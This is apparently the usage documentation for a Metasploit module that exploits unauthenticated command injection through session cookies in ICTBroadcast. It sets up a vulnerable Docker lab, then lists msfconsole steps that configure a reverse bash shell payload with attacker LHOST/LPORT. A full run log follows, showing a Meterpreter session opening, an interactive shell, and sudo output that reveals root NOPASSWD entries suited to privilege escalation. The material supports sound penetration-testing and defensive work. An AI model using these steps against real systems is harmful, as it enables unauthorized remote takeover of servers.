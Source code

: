 ## Vulnerable Application

This Metasploit module exploits an **unauthenticated remote code
execution (RCE)** vulnerability in **ICTBroadcast**.
The vulnerability exists due to improper handling of session
cookies in the authentication mechanism. An attacker can inject arbitrary system commands by modifying the session cookie.

The issue affects **various versions of ICTBroadcast**, but
specific impacted releases are currently unknown. The vulnerability allows an attacker to execute shell commands **without authentication**.

## Options

None

## Testing

To test the exploit, spin up a vulnerable ICTBroadcast instance with Docker.

```yaml
services:
  db:
    image: mariadb:10.6
    container_name: ictmysql
    restart: unless-stopped
    environment:
      MYSQL_ROOT_PASSWORD: root     
      MARIADB_ROOT_HOST: '%'       
      MYSQL_DATABASE: ictbroadcast
      MYSQL_USER: ictuser
      MYSQL_PASSWORD: ictpass
    volumes:
      - db_data:/var/lib/mysql
    ports:
      - "3306:3306"

  ictbroadcast:
    image: chocapikk/ictbroadcast-cve-2025-2611:latest
    container_name: ictbroadcast
    depends_on:
      - db
    ports:
      - "80:80"
      - "443:443"
    command: >
      bash -c "
        composer --working-dir=/usr require stefangabos/zebra_pagination &&
        /usr/sbin/httpd -k start &&
        /usr/sbin/php-fpm &&
        tail -f /dev/null
      "

volumes:
  db_data:
```

1. Start the stack:

```bash
docker compose up -d
```

2. Verify that the login page is reachable at **`http://localhost/login.php`**.
   The application should issue a valid session cookie on first visit.

3. Run the Metasploit module.
   The exploit will automatically harvest the session cookie (format may vary across deployments)
   and leverage it to execute arbitrary commands via the vulnerable endpoint.

## Verification Steps
1. Start **Metasploit Framework**:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/ictbroadcast_unauth_cookie
```

3. Set the **target IP address**:
```bash
set RHOSTS <TARGET_IP>
```

4. Set the **payload** for command execution:
```bash
set PAYLOAD cmd/unix/reverse_bash
```

5. Configure the listener:
```bash
set LHOST <YOUR_IP>
set LPORT 4444
```

6. Check if the target is vulnerable:
```bash
check
```

7. Exploit the target:
```bash
exploit
```

## Scenarios

### Unauthenticated Command Execution
**Note**: Ensure that the target is vulnerable using the `check` command before running the exploit.

**Note**: The session cookie is retrieved dynamically and modified for command injection.

```bash
msf6 exploit(linux/http/ictbroadcast_unauth_cookie) > run http://lab/
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if target is an ICTBroadcast instance…
[+] ICTBroadcast detected, verifying injection…
[*] Retrieving session cookies dynamically...
[*] Found cookies: BROADCAST="16c4d0bf9d5b5cf9d8dc3f19e6ea2338;"
[+] The target is vulnerable. Injection confirmed (slept 3s)
[*] Sending stage (3090404 bytes) to 192.168.128.3
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 192.168.128.3:58784) at 2025-08-02 19:27:09 +0200

meterpreter > sysinfo 
Computer     : 192.168.128.3
OS           : Red Hat 8.10 (Linux 6.15.8-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > shell
Process 798 created.
Channel 1 created.
export TERM=xterm
SHELL=/bin/bash script -q /dev/null
bash-4.4$ sudo -l
sudo -l
Matching Defaults entries for asterisk on f7681361bd20:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User asterisk may run the following commands on f7681361bd20:
    (root) NOPASSWD: /usr/sbin/asterisk
    (root) NOPASSWD: /etc/init.d/asterisk
    (root) NOPASSWD: /etc/init.d/httpd
    (root) NOPASSWD: /etc/init.d/mysqld
    (root) NOPASSWD: /etc/init.d/kannel
    (root) NOPASSWD: /usr/sbin/ntpdate
    (root) NOPASSWD: /usr/sbin/rabbitmqctl
    (root) NOPASSWD: /bin/systemctl
```
